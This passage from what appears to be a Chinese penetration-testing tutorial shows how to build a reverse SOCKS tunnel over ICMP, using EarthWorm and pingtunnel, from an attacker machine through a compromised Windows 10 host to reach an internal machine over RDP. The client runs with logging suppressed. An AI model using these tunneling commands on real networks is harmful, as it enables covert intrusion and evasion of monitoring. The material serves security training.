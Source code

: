 #### 攻击机操作

首先将所有的工具都上传到攻击机中，注意需要给予执行权限，最好执行的时候给予管理员权限运行。

```
./ew_for_linux64 -s rcsocks -l 5555 -e 4444   ##将接收到的4444流量请求转发到5555端口
```

![image-20230606090924276](https://s2.loli.net/2023/06/06/NJWmMpie3cEOsR1.png)

```
./pingtunnel -type server  ##开启服务器模式
```

![image-20230606091039492](https://s2.loli.net/2023/06/06/wgyUxQKqdzYSBaW.png)

#### Windows10操作

同样这里需要将所有工具提前上传到服务器上，至于如何上传，可通过前期的一些WEB漏洞、系统漏洞等获取到权限。

```
pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.3.76 -t 192.168.3.76:4444 -sock5 -1 -noprint 1 -nolog 1
```

![image-20230606091349876](https://s2.loli.net/2023/06/06/8GCD5rBaoeSnEsw.png)

```
ew.exe -s rssocks -d 127.0.0.1 -e 3333
```

![image-20230606091447720](https://s2.loli.net/2023/06/06/r5fP83iIUY2qhNZ.png)

#### 连接测试

到这里我们配置一下proxifier的代理，这个工具已经使用过很多次了，就不细说了，直接上操作。

![image-20230606092156263](https://s2.loli.net/2023/06/06/ho2qVEk1N8USDaA.png)

接着开启远程桌面测试，可以看到成功连接到192.168.20.20的虚拟机。

![image-20230606091925652](https://s2.loli.net/2023/06/06/YTuzA9xCiZ5NVXm.png)

# 传输层隧道技术

关于传输层隧道技术，其实简单来说就是CS、MSF、NC、Python等反弹shell，就是利用传输层建立的隧道技术，所以，这里就不在演示传输层的隧道技术。

# 会话层隧道技术

这里你可以当我吹的，因为我也不知道SMB协议属于那一层的。

从ISO/OSI网络分层的眼光来看，SMB协议位于会话层（session layer）和表示层（presentation layer）以及小部分应用层（application layer）。

从TCP/IP协议划分的眼光来看，SMB是一个工作在应用层的协议。
